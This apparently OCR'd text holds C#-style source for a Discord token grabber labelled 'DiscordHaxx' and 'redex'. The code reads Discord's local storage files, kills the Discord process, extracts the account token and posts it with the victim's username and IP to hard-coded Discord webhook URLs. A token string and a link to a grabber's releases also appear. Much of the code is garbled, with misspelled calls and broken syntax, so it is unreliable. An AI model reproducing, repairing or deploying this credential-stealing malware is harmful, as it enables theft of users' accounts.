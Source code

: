 thub.com/NightfallGT/Mercurial-Grabber/releases
https://discord.com/api/webhooks/915293209297551391/KdUf0SEolCuHIeFHIQfzgJkIHbzjKuTGPtuPIwAr6FQPI0rel2fb5j7NO06iCqwxw2CN
staff
namespace DHTokenGrabber
{   
// token:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU RID: 365 RVA:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU file Offset:OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA7nGgcZJSR9WeJs5c4W7kOSh1wqU), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
}))),
try 
{
    httpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).result;
}
catch (Exception)
{
}
 }
 // Token: 0x06000008 RID: 8 RVA: 0x00002368 File Offset: 0x00000568
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/927669840855044146/QpiGODKbxCsX-_ZV9u5I_R34i2FwDayaWOxt9IgW3tO7rNF56qxGH8_LhcsVenWGaPF6").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "´´´" + string.join("\n",new string[]
                {
                    content
                }) + "´´´"
            },
            {
                "the soviet guy#7119"
                "redex token grabber"
            },
            {
                "avatar_url",
                "https://discord.com/channels/@me/918347100335538227"

            }
        };
        httpClient.PostAsync(WebHook._hookUrl, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    // token: OTEzMTA1MDk5ODI2NTQwNjQ1.YZ5pZA.7nGgcZJSR9WeJs5c4W7kOSh1wqU RID:366 RVA:0x00008888 File Offset:e
    
    
   
